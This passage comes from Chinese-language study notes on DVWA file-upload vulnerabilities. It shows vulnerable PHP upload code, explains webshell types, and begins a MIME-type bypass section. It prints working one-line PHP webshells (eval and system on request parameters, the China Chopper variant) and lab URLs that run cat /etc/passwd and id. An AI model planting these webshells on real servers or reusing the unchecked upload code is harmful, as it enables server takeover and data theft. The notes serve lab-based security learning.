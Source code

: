                 if(!move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path)) {
                    
                    echo '<pre>';
                    echo 'Your image was not uploaded.';
                    echo '</pre>';
                    
                    } else {
                
                    echo '<pre>';
                    echo $target_path . ' succesfully uploaded!';
                    echo '</pre>';
                    
                }

            }
    ?>
    ```


**Webshell**

- 小马：<u>一句话木马</u>，即整个 shell 代码量只有一行，一般是系统执行函数
- 大马：代码量和功能比小马多，一般会进行二次编码加密，防止被安全防火墙 WAF /入侵系统 IDS 检测到
  ```php
  # php代码(一) 名称shell1.php
  # 上传至dvwa的后端
  # eval使用php函数，例如phpinfo()
  # REQUEST是在网页端输入变量访问
  # POST则是使用像中国菜刀之类的工具连接，是C/S架构
  <?php eval($_REQUEST['pass']);?>
  
  # 在浏览器URL栏中输入http://192.168.50.129/dvwa/hackable/uploads/shell1.php?pass=phpinfo();
  # pass同eval函数方括号中的值
  # 则页面会展示phpinfo()函数的结果，其他php函数同理
      
  
  # php代码(二) 名称shell2.php
  # system使用Linux系统命令，例如ls,cp,rm
  <?php system($_REQUEST['pass']);?>
  http://192.168.50.129/dvwa/hackable/uploads/shell2.php?pass=cat /etc/passwd
  http://192.168.50.129/dvwa/hackable/uploads/shell2.php?pass=id
  
  -----------------------
  
  # 中国菜刀之php代码
  <?php eval($_POST[123]);?>
  ```

- medium security
  - **绕过类型上传文件，<u>文件 mime 类型</u>**
    - 限制文件类型和大小
        ```php
        <?php
            if (isset($_POST['Upload'])) {

                $target_path = DVWA_WEB_PAGE_TO_ROOT."hackable/uploads/";
                $target_path = $target_path . basename($_FILES['uploaded']['name']);
                $uploaded_name = $_FILES['uploaded']['name'];
                $uploaded_type = $_FILES['uploaded']['type'];
                $uploaded_size = $_FILES['uploaded']['size'];
